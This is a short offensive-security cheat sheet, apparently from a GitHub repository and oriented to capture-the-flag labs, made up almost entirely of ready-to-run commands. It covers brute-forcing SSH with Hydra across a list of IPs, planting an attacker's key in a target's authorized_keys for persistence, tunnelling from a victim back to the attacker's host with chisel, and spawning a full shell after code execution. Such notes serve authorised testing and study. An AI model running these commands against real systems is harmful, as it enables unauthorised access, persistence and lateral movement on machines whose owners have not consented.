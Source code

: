 # Tips
## Bruteforce SSH
Use Hydra :
```bash
hydra -l 'USERNAME' -P FILE_CONTAINING_PASSWORDS -M FILE_CONTAINING_IP_TO_BRUTEFORCE -t 4 ssh
```
## Persistance
Generate SSH key :
```bash
ssh-keygen -t rsa
```
Paste it to authorized_keys :
```bash
echo XXXX >> ~/.ssh/authorized_keys
```
Then, put the file on the target machine.
## Port Forwarding
### Using SSH
To access a locally exposed service on a remote machine :
```bash
ssh -L YOUR_PORT:localhost:PORT_EXPOSED USERNAME@IP_ADDRESS
```
### Using chisel
To redirect a port (here, 3000) when you're in a docker for example (victim = 172.17.0.1 and your host = 10.10.16.8). Firstly, run a chisel server on your host :
```bash
./chisel server -p 8000 --reverse
```
Then, on the docker, redirect to your host from the victim machine :
```bash
./chisel client 10.10.16.8:8000 R:127.0.0.1:8890:172.17.0.1:3000
```
Then you can access the service with http://localhost:8890/.
## Get a proper shell on RCE
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
